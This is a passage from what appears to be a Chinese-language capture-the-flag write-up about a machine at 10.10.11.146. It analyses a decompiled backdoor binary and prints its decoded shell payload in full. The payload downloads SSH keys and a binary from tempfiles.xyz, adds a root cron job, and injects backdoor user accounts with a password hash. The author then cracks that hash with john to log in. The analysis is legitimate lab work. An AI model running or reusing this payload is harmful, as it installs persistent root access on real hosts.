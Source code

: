 ```cpp
    "316f49646e6f4f76586f6f6c4b6d6c77626b656742586b2e567447673738654c3757424d364f724e7447625a784b427450753855666d39684d30"
    "522f424c6441436f513054396e2f3a31383831333a303a39393939393a373a3a3a203e3e202f6574632f736861646f7722297d27202f6574632f"
    "7061737377643b2061776b202d46223a2220272437203d3d20222f62696e2f6261736822202626202433203e3d2031303030207b73797374656d"
    "28226563686f2022243122202224332220222436222022243722203e2075736572732e74787422297d27202f6574632f7061737377643b207768"
    "696c652072656164202d7220757365722067726f757020686f6d65207368656c6c205f3b20646f206563686f202224757365722231223a783a24"
    "67726f75703a2467726f75703a2c2c2c3a24686f6d653a247368656c6c22203e3e202f6574632f7061737377643b20646f6e65203c2075736572"
    "732e7478743b20726d2075736572732e7478743b");
  v9 = v6;
  v8 = v5;
  while ( *v9 )
  {
    v0 = v9++;
    v6[1319] = hexdigit2int((unsigned __int8)*v0);
    v1 = v9++;
    v6[1318] = hexdigit2int((unsigned __int8)*v1);
    v2 = v8++;
    *v2 = v6[1318] | (16 * v6[1319]);
  }
  *v8 = 0;
  argv[0] = path;
  argv[1] = "-c";
  argv[2] = v5;
  argv[3] = 0LL;
  return execve(path, argv, 0LL);
}
```

将那串16进制转换为ascii得到

```
wget tempfiles.xyz/authorized_keys -O /root/.ssh/authorized_keys; wget tempfiles.xyz/.main -O /var/lib/.main; chmod 755 /var/lib/.main; echo "* 3 * * * root /var/lib/.main" >> /etc/crontab; awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1"1:\$6\$zS7ykHfFMg3aYht4\$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/:18813:0:99999:7::: >> /etc/shadow")}' /etc/passwd; awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1" "$3" "$6" "$7" > users.txt")}' /etc/passwd; while read -r user group home shell _; do echo "$user"1":x:$group:$group:,,,:$home:$shell" >> /etc/passwd; done < users.txt; rm users.txt;
```

得到一个`/etc/shadow`里面的哈希`$6$zS7ykHfFMg3aYht4$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/`,利用cmd5对其进行反查,没有得到结果

利用`john`进行手动爆破,得到`ihatehackers`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203262117055.png)

以`steven1@10.10.11.146`成功登录
